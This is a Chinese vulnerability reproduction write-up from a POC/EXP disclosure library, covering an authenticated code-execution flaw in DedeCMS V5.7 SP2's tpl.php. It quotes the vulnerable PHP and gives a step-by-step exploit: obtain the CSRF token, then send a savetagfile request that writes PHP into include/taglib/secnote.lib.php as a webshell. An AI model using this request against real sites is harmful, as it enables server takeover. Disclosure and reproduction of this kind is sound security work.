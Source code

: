 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.bylibrary.cn](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCMS%20V5.7%20SP2%E5%90%8E%E5%8F%B0%E5%AD%98%E5%9C%A8%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/)

> 白阁文库是白泽 Sec 团队维护的一个漏洞 POC 和 EXP 披露以及漏洞复现的开源项目，欢迎各位白帽子访问白阁文库并提出宝贵建议。

[](https://github.com/BaizeSec/bylibrary/blob/main/docs/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCMS%20V5.7%20SP2%E5%90%8E%E5%8F%B0%E5%AD%98%E5%9C%A8%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md "编辑此页")

影响版本 [¶](#_1 "Permanent link")
------------------------------

DedeCMS V5.7 SP2

漏洞简介 [¶](#_2 "Permanent link")
------------------------------

织梦内容管理系统 (Dedecms) 是一款 PHP 开源网站管理系统。Dedecms V5.7 SP2 版本中的 tpl.php 中存在代码执行漏洞, 可以通过该漏洞在增加新标签中上传木马, 获取 webshell。该漏洞利用需要登录后台, 并且后台的账户权限是管理员权限。

漏洞详情 [¶](#_3 "Permanent link")
------------------------------

默认后台地址 `/dede/`，文件 `dede/tpl.php` 中的 251 到 281 行。

```
csrf_check();
    #filename和前面正则的匹配情况
    if(!preg_match("#^[a-z0-9_-]{1,}\.lib\.php$#i", $filename))
    {
        ShowMsg('文件名不合法，不允许进行操作！', '-1');
        exit();
    }
    require_once(DEDEINC.'/oxwindow.class.php');
    #搜索filename中匹配`\.lib\.php$#i`的部分，以空格代替
    $tagname = preg_replace("#\.lib\.php$#i", "", $filename);
    #去掉反斜号
    $content = stripslashes($content);
    #拼接文件名
    $truefile = DEDEINC.'/taglib/'.$filename;
    #写入内容
    $fp = fopen($truefile, 'w');
    fwrite($fp, $content);
    fclose($fp);
```

replace 处理之后赋值给变量 \(tagname 。但是写入文件的时候并没有用到 \)tagname 。 那为什么有这个 $tagname，拼接文件名的时候，应该是拼接`tagname`

利用

```
1.由于dedecms全局变量注册的特性，所以这里的content变量和filename变量可控。

2.可以看到将content直接写入到文件中导致可以getshell。但是这里的文件名经过正则表达式，所以必须要.lib.php结尾。

3.这里还有一个csrf_check()函数，即请求中必须要带token参数。
```

#### 漏洞利用 [¶](#_4 "Permanent link")

1.  首先获取`token`。访问域名 + `/dede/tpl.php?action=upload`
    
    [http://127.0.0.1/uploads/dede/tpl.php?action=upload](http://127.0.0.1/uploads/dede/tpl.php?action=upload)
    
    通过查看页面源码即可获得 token
    

![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCMS%20V5.7%20SP2%E5%90%8E%E5%8F%B0%E5%AD%98%E5%9C%A8%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/token.png)

2. 然后访问

```
http://127.0.0.1/dede/tpl.php?filename=secnote.lib.php&action=savetagfile&content=<?php phpinfo();?>&token=你的token值
```

shell 地址

```
http://127.0.0.1/include/taglib/secnote.lib.php
```

![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCMS%20V5.7%20SP2%E5%90%8E%E5%8F%B0%E5%AD%98%E5%9C%A8%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/1.png)

参考来源 [¶](#_5 "Permanent link")
------------------------------

DedeCMS V5.7 SP2 后台存在代码执行漏洞：[http://www.freebuf.com/vuls/164035.html](http://www.freebuf.com/vuls/164035.html)

Dede CMS 下载中心：[http://www.dedecms.com/products/dedecms/downloads/](http://www.dedecms.com/products/dedecms/downloads/)

* * *

最后更新: 2021-03-24